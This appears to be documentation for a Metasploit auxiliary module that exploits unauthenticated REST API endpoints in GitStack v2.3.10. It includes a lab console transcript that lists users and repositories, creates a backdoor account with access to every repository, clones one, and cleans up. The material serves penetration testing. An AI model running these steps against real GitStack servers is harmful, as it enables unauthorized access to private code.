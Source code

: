 ## Description

This module sends requests to REST API endpoints in GitStack v2.3.10. The application allows unauthenticated REST API requests to several endpoints. Earlier version of GitStack may also be affected.

## Vulnerable Application

The GitStack application provides REST API functionality to list application users, list application repositories, create application users, etc. Several of the application's REST API endpoints do not require authentication, which allows those with network-level access to the application to take advantage of these unprotected requests.

Application user accounts created through the REST API do not have access to the admin web interface, but the accounts can be added and removed from repositories using additional API requests.

## Actions

**LIST**

List application user accounts. 

Note: The account `everyone` is a default account.

**LIST_REPOS**

List application repositories.

**CREATE**

Create a user account and add the account to all available repositories.

**CLEANUP**

Remove the specified application user account from all available repositories and delete the application account.

## Verification Steps

- [ ] Install a vulnerable GitStack application
- [ ] Create a few application user accounts
- [ ] Create a few application repositories
- [ ] `./msfconsole`
- [ ] `use auxiliary/admin/http/gitstack_rest`
- [ ] `set rhost <rhost>`
- [ ] `run`
- [ ] Verify the application user list that is returned
- [ ] `set action LIST_REPOS`
- [ ] `run`
- [ ] Verify the repository list that is returned
- [ ] `set username <username>`
- [ ] `set password <password>`
- [ ] `set action CREATE`
- [ ] `run`
- [ ] On the application verify that the user has been created
- [ ] On the application verify that the user has access to the repositories
- [ ] `set action CLEANUP`
- [ ] `run`
- [ ] On the application verify that the user doesn't have access to the repositories
- [ ] On the application verify that the user has been deleted



## Scenarios

### GitStack v2.3.10 on Windows 7 SP1 x64

```
msfdev@simulator:~/git/metasploit-framework$ ./msfconsole -q -r test.rc 
[*] Processing test.rc for ERB directives.
resource (test.rc)> use auxiliary/admin/http/gitstack_rest
resource (test.rc)> set rhost 172.22.222.122
rhost => 172.22.222.122
resource (test.rc)> run
[*] User List:
[+] rick
[+] morty
[+] everyone
[*] Auxiliary module execution completed
resource (test.rc)> set action LIST_REPOS
action => LIST_REPOS
resource (test.rc)> run
[*] Repo List:
[+] brainalyzer
[+] c137
[*] Auxiliary module execution completed
resource (test.rc)> set action CREATE
action => CREATE
resource (test.rc)> run
[+] SUCCESS: msf:password
[+] User msf added to brainalyzer
[+] User msf added to c137
[*] Auxiliary module execution completed
resource (test.rc)> set action CLEANUP
action => CLEANUP
resource (test.rc)> run
[+] msf removed from brainalyzer
[+] msf removed from c137
[+] msf has been deleted
[*] Auxiliary module execution completed
```

After CREATE, but before CLEANUP, use git to clone the remote repositories.

```
msfdev@simulator:~/money-bugs$ git clone http://msf:password@172.22.222.122/brainalyzer.git
Cloning into 'brainalyzer'...
remote: Counting objects: 3, done.
Unpacking objects: 100% (3/3), done.
remote: Total 3 (delta 0), reused 0 (delta 0)
msfdev@simulator:~/money-bugs$ cd brainalyzer/ && ls
szechuan_sauce.md
```
